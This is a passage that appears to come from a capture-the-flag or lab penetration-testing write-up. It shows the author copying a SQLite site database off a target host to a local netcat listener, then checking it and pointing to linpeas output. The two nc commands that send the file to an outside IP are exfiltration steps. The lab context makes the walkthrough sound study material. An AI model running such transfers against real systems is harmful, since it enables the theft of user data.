 ![](./IMG/43.png)

> I know the dbms is sqlite, I also transfer the db file to my local to confirm the content.

- Listener on local
```
nc -nlvp 1338 > site.db
```
- nc on target machine
```
nc -w 3 10.10.17.145 1338 < site.db
```
> Using sqlite3 to confirm the content, but it only shows some user information for website.
> I think that is not the clue I want.
> The same information also can be found in linpeas result 

![](./IMG/50.png)
### linpeas 
